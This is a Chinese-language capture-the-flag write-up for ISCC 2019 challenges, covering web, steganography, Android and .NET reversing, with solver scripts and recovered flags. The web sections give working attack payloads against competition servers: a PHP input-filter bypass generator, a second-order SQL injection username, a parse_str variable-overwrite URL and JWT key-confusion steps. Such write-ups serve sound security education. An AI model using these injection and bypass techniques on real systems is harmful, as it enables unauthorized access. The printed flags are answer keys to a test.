# web1
使用`chr(256+i)=chr(i)`绕过`$value[$i] > 32 && $value[$i] < 127`
使用科学计数法绕过`intval($password) < 2333 && intval($password + 1) > 2333`：

```bash
λ php -r "echo intval('2e5');"
2
λ php -r "echo '2e5'+1;"
200001
λ php -r "echo intval('2e5'+1);"
200001
```

写exp得到payload：

```python
s='w3lc0me_To_ISCC2019'
value="?"
for idx in range(len(s)):
    value+="value[{idx}]={value}&".format(idx=idx, value=256+ord(s[idx]))
value+="password=2e5"
print(value)
```

# web2

涉及到一个简单的验证码识别，可以用PkavHTTPFuzzer搞定，也可以自己用Tesseract写或者用Burp [reCAPTCHA](https://github.com/bit4woo/reCAPTCHA)(其实不怎么推荐用Burp这个插件，因为其没法做)。



# web3

二次注入，详细看Sqli-lab24<https://www.freebuf.com/articles/web/167089.html>

先用`admin'#anemone`注册账号，账号名被转义，但是保存在数据库时转义符会消失：



接着登录后修改密码，此时数据库执行语句为：

```sql
UPDATE users 
SET PASSWORD='xxx' where username='admin'#anemone and password='real_password'
```


# web4

`parse_str()`存在变量覆盖，payload如下：

```url
http://39.100.83.188:8066/?action=auth&key=anemone&hashed_key=2d557c961d57999ffda3856b207df26d2f547a69d5fa8e8021555094d4744ec0
```

# web6

登陆之后会传回一个JWT的token，接着post paste时会将"iscc19 {token}"作为Authorization字段的值，验证身份。



解码得到加密算法(RS256)，载荷为`{"name":"anemone","priv":"other"}`，下面想办法搞到签名，在/static/js/common.js中有一个提示



那么访问<http://39.100.83.188:8053/pubkey/6a59db85ba811be6e64b5b2292e292a4>可以的得到公钥

# 隐藏的信息

读取文件，8进制转为char，拼成字符串，base64decode得到flag：

```python
with open('./message.txt', 'r') as f:
    text=f.readline()
arr=text.split()
s=""
for e in arr:
    s+=chr(int(e,8))
print(base64.b64decode(s))
```

# 倒立屋

图片LSB提取头部看到IsCc_2019字符串，倒过来写就是flag



# Keyes' secret 

键盘键位的图案对应char，注意大写、空格和顺序，脚本需要用Python3运行

```python
keyboard2char={
    "MNBVCDRTGHU":"r",
    "EFVGYWDCFT":"w",
    "NBVCXSWERF":"p",
    "QAZXCDEWV":"q",
    "XSWEFTYHN":"m",
    "TGBNMJUY":"o",
    "ZAQWDVFR":"n",
    "RFVGYHN":"h",
    "TYUIOJM":"t",
    "TGBNMJU":"u",
    "IUYHNBV":"s",
    "GRDXCVB":"a",
    "WSXCFE":"d",
    "CVGRED":"g",
    "YHNMKJ":"b",
    "QAZSCE":"k",
    "WSXCDE":"e",
    "QWERTY":" ",
    "RGNYGC":"x",
    "WSXCV":"l",
    "TRFVG":"f",
    "TRFVB":'c',
    "EFVGY":"v",
    "EFVT":"y",
    "WSX":"i",
}
with open("./keyes.txt", 'r') as f:
    s=f.readline()

for k,v in keyboard2char.items():
    s=s.replace(k,v)

print(s.upper())
```

# Aesop's secret

图片尾部有aes密文



```
U2FsdGVkX19QwGkcgD0fTjZxgijRzQOGbCWALh4sRDec2w6xsY/ux53Vuj/AMZBDJ87qyZL5kAf1fmAH4Oe13Iu435bfRBuZgHpnRjTBn5+xsDHONiR3t0+Oa8yG/tOKJMNUauedvMyN4v4QKiFunw==
```

将gif拼接可以得到密钥ISCC：



使用在线工具可以解密：

<http://tool.chinaz.com/Tools/textencrypt.aspx>

# 碎纸机

使用binwalk分解图片，得到puzzle1-10.jpg，共十张jpg，每张jpg末尾存在1250字节数据。

将数据作为灰度值，做成50*25大小的10张图片，得到Flag={ISCC_is_so_interesting_!}，提取代码如下：

```python
#!/usr/bin/env python
# coding=utf-8

# @file solve.py
# @brief solve
# @author Anemone95,x565178035@126.com
# @version 1.0
# @date 2019-05-04 09:55

import numpy as np
import matplotlib.pyplot as plt
from scipy import misc

def extract(filename):
    with open(filename, 'rb') as f:
        content=f.read()

    return content[-1250:]

def solve():
    contents=[]
    for i in range(1,11):
        contents.append(extract('./extracted/puzzle{}.jpg'.format(i)))

    for i in range(10):
        showpng(contents[i],50,"puzzle{}".format(i+1))

def showpng(content, xx, name):
    yy, xx, depth = 1250//xx, xx, 8
    new=[]
    for y in range(yy):
        tmp=[]
        for x in range(xx):
            rgb=content[y*xx+x]
            print(y*xx+x)
            tmp.append([rgb, rgb, rgb])
        new.append(tmp)
    # new[y][x][rgb]
    lena=np.array(new)    #生成np.array
    misc.imsave('{}.png'.format(name), lena)    #保存图片

if __name__ == '__main__':
    solve()
```

# answer to everything

将#后面的字符sha1得到flag



# 他们能在一起吗

下载图片二维码，binwalk分离出加密的zip

读取图片得到base64：`UEFTUyU3QjBLX0lfTDBWM19ZMHUlMjElN0Q=`， 解码得到`PASS%7B0K_I_L0V3_Y0u%21%7D`再解码得到压缩包密码PASS{0K_I_L0V3_Y0u!}

用密码`0K_I_L0V3_Y0u!`解压得到flag：ISCC{S0rrY_W3_4R3_Ju5T_Fr1END}

# 最危险的地方就是最安全的地方

foremost图片，解压zip得到50个图片，检查50.jpg看到备注：



解密得到flag{15cC9012}，提交15cC9012

# 无法运行的exe

将exe下载下来，用脚本将base64内容解码为图片。
修改图片第八个字节为0A打开得到二维码，扫描得到flag：IScC_2019

# Mobile01

len(key)=16,  49≤key中每个字符≤56



分析so层，需要通过checkfirst和checkAgain



checkfirst检测前8个数字是否为递增，前面的两个if-else为编译器优化



checkAgain中，有两个变量自己调一下类型



直接看到逻辑：



接下来根据反编译的逻辑写脚本爆破就好了

```python
from z3 import *

def solve():
    intarr=[1,2,3,4,5,6,7,8]
    arr = [Int("i_{}".format(i)) for i in range(8)]
    s = Solver()
    for i in range(8):
        s.add(0<arr[i], arr[i]<=8)
    s.add(arr[0]+arr[7]-1-1==5)
    s.add(arr[1]+arr[6]-1-1==12)
    s.add(arr[0]<arr[7])
    for k in range(1,8):
        for l in range(0,k):
            s.add(arr[l]!=arr[k])
            s.add(intarr[k]-intarr[l]!=(arr[k]-arr[l]))
            s.add(intarr[k]-intarr[l]!=(arr[l]-arr[k]))
    print(s.check())
    m=s.model()
    for i in range(8):
        print(i,m.evaluate(arr[i]))

if __name__ == '__main__':
    solve()
```

# 简单Python

拿到pyc反编译，得到加密算法：

```python
import base64

def encode(message):
    s = ''
    for i in message:
        x = ord(i) ^ 32
        x = x + 16
        s += chr(x)

    return base64.b64encode(s)

correct = 'eYNzc2tjWV1gXFWPYGlTbQ=='
flag = ''
print('Input flag:')
flag = raw_input()
if encode(flag) == correct:
    print('correct')
else:
    print('wrong')
```

反推得到解密算法：

```python
import base64

def decode(en_msg):
    raw_de=base64.b64decode(en_msg)
    plain=''
    for byte in raw_de:
        x=byte-16
        x=x^32
        plain+=chr(x)
    return plain

def solve():
    correct = 'eYNzc2tjWV1gXFWPYGlTbQ=='
    print(decode(correct))

if __name__ == '__main__':
    solve()
```

# Rev01

dnSpy反编译看到用户名密码



登陆看到flag{ST0RING_STAT1C_PA55WORDS_1N_FIL3S_1S_N0T_S3CUR3}



# 解密成绩单

用ZipCenOp去除伪加密，接着反编译看到用户名密码，得到Flag ISCC{Y0u_F0UnD_ThE_P4SSW0RD!}



# High起来！

1. 修复文件的PNG文件头，得到一个二维码，扫描得到：中口由羊口中中大中中中井，当铺密码解密

   ```python
   s = '中口由羊口中中大中中中井'
   d = {'口':'0', '由':'1', '中':'2', '人':'3', '工':'4', '大':'5', '王':'6', '夫':'7', '井':'8', '羊':'9'}
   result = ''
   for i in s:
       if i in d:
           result += d[i]
       else:
           result += i
   print(result)
   ```

   得到201902252228

2. foremost从png中提取出一个mp3，用[MP3Stego](http://www.petitcolas.net/steganography/mp3stego/)解码（用法`./Decode.exe -X -P 201902252228 apple.mp3`），得到`&#102;&#108;&#97;&#103;&#123;&#80;&#114;&#69;&#116;&#84;&#121;&#95;&#49;&#83;&#99;&#67;&#57;&#48;&#49;&#50;&#95;&#103;&#79;&#48;&#100;&#125;`解码得到`flag{PrEtTy_1ScC9012_gO0d}`

# Rev03

dnSpy反编译，写解密脚本：

```python
Letters = "ABCDEFGHIJKLMNOPQRSTUVWXYZ{}_"
s=""
s+=Letters[5]
s+=Letters[11]
s+=Letters[0]
s+=Letters[6]
s+=Letters[26]
s+=Letters[8]
s+=Letters[28]
s+=Letters[11]
s+=Letters[14]
s+=Letters[21]
s+=Letters[4]
s+=Letters[28]
s+=Letters[5]
s+=Letters[14]
s+=Letters[13]
s+=Letters[25]
s+=Letters[24]
s+=Letters[27]
print(s) # FLAG{I_LOVE_FONZY}
```

